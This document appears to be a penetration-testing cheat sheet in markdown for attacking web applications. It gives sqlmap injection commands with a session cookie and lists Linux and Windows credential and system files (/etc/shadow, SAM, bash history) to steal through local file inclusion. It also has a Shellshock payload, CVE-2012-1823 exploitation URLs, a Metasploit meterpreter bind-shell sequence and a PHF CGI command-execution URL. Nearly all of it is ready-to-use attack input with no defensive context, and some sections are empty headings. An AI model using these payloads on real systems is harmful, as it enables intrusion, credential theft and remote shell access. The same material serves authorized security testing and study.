 # Attacking Web Applications

## Burp Extentions


## SQL Injection


## SQLMap Cheatsheet
```
#GET Request Injection
sqlmap –cookie=”OV3176019645=7a1p0ilqfud0s0dhdf0p5pqog4″ –url=”http://10.xx.xx.73:8080/php/index.php?tg=site&idx=menusite&item=2&#8243; -p item –proxy=http://127.0.0.1:8081

#POST Request Injection
sqlmap -r sqlmap_request2 -p txtLoginID
```


## Exfiltrate Linux Files - Local File Inclusion
```
/etc/issue
/proc/version
/etc/profile
/etc/passwd
/etc/shadow
/root/.bash_history
/var/log/dmessage
/var/mail/root
/var/spool/cron/crontabs/root

...log files
```

## Exfiltrate Windows Files - Local File Inclusion
```
%SYSTEMROOT%\repair\system
%SYSTEMROOT%\repair\SAM
%WINDIR%\win.ini
%SYSTEMDRIVE%\boot.ini
%WINDIR%\Panther\sysprep.inf
%WINDIR%\system32\config\AppEvent.Evt
```

## PHP CGI-Bin Exploits

**Exploiting ShellShock via CGI-Bin**
<br/>
![Shell Shock via User-Agent Header](./img/SHELL_SHOCK.png)
```
() { :;}; echo $(</etc/passwd)
```

**Detect / Exploit PHP CGI Bug - [CVE-2012-1823]**
<br/>
_Detection:_
```
nmap -p 80, 8080, 443 --script http-cve2012-1823
http://vulnerable/?-s
```

_Exploitation:_
```
# Enable allow_url_include=1
http://vulnerable/?-d+allow_url_include%3d1+-d+auto_prepend_file%3dphp://input
```

_Meterpreter TCP Bind_
```
msfconsole
use exploit/multi/http/php_cgi_arg_injection
set rhost [URL]
set rhost [HOST_IP]
set PAYLOAD php/meterpreter/bind_tcp
exploit
```

**PHF CGI Remote Command Execution - [CVE-1999-0067]**
```
http://www.thesite.com/cgi-bin/phf?Qalias=x%0a/bin/cat%20/etc/passwd

```
